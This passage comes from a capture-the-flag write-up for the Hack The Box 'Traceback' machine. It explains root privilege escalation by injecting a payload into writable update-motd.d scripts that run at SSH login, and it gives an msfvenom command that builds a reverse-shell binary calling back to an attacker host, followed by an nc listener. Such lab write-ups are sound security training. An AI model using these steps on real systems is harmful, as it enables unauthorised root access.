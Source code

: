 ![Desktop View]({{ "/assets/img/traceback/HTB-Images-Traceback-groupwfiles.png" | relative_url }})

We can confirm that with `ls -la` command.

![Desktop View]({{ "/assets/img/traceback/HTB-Images-Traceback-verifwfile.png" | relative_url }})

According to linux manual :

"UNIX/Linux system adminstrators often communicate important information to console and remote users by maintaining text in the file /etc/motd, which is displayed by the pam_motd(8) module on interactive shell logins. Traditionally, this file is static text, typically installed by the distribution and only updated on release upgrades, or overwritten by the local administrator with pertinent information.

Ubuntu introduced the update-motd framework, by which the motd(5) is dynamically assembled from a collection of scripts at login.

Executable scripts in /etc/update-motd.d/* are executed by pam_motd(8) as the root user at each login, and this information is concatenated in /var/run/motd. The order of script execution is determined by the run-parts(8) --lsbsysinit option (basically alphabetical order, with a few caveats)."

Reference - Manual Linux Update-motd.d : <http://manpages.ubuntu.com/manpages/trusty/man5/update-motd.5.html>

Here you can see how this works when you log on to ssh :

For this example /etc/update-motd.d/`00-header` file = `Welcome to Xh4H land`

![Desktop View]({{ "/assets/img/traceback/HTB-Images-Traceback-headerssh.png" | relative_url }})

The use of the `pspy tool` confirms the execution of these scripts under root privilege `(UID 0)`.

![Desktop View]({{ "/assets/img/traceback/HTB-Images-Traceback-checkprocess.png" | relative_url }})

![Desktop View]({{ "/assets/img/traceback/HTB-Images-Traceback-sshview.png" | relative_url }})


### Obtaining Reverse Shell with Payload Injection
***
We can push custom payload into one of theses script to get reverse shell under root privilege when they are executed.

```terminal
$ msfvenom -p linux/x64/shell_reverse_tcp -f elf -o shell LHOST=10.10.14.54 LPORT=4444
```

After creating our payload, we send it to our target machine and place it in the /tmp/ folder.

Now we can call our payload to be executed in one of the scripts in the update-motd.d folder. I choose 00-header.

![Desktop View]({{ "/assets/img/traceback/HTB-Images-Traceback-insertpayload.png" | relative_url }})

We prepare our attacking machine to receive the shell with nc command and we launch new ssh connexion.
